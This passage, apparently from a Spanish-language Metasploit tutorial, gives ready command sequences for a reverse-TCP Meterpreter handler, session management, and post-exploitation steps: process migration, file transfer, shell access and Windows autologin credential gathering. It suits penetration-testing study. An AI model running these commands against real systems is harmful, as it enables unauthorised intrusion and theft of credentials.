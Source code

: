 **Explicación**  
Seleccionamos el exploit, configuramos objetivo y payload (LHOST/LPORT para la conexión inversa), comprobamos con `check` cuando el módulo lo soporte y ejecutamos en background con `-j` si queremos seguir interactuando.

---

## Handler / multi/handler (capturar sesiones)

**Acción**

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit -j
```

**Explicación**  
Configuramos un handler para recibir shells/reverse sessions generadas por payloads fuera de Metasploit o por plantillas de exploit. Lo ejecutamos como job y luego atendemos la sesión con `sessions -i <id>`.

---

## Gestión de sesiones

**Acción**

```bash
sessions         # lista sesiones activas
sessions -i 1    # interactuar con sesión 1
sessions -k 1    # matar sesión 1
background       # enviar la sesión foreground a background (desde sesión interactiva)
```

**Explicación**  
Mantenemos y gestionamos múltiples sesiones. En meterpreter, usamos comandos propios (sysinfo, ps, migrate, etc.).

---

## Comandos útiles de Meterpreter (post-explotación)

**Ejemplos**

```bash
sysinfo             # info del sistema comprometido
getuid              # usuario actual
ps                  # procesos
migrate <pid>       # migrar a otro proceso
background          # dejar meterpreter en background
download /ruta/archivo
upload localfile /destino/remoto
shell               # drop to a shell on the target
run post/windows/gather/enum_applications
run post/multi/gather/credentials/windows_autologin
```
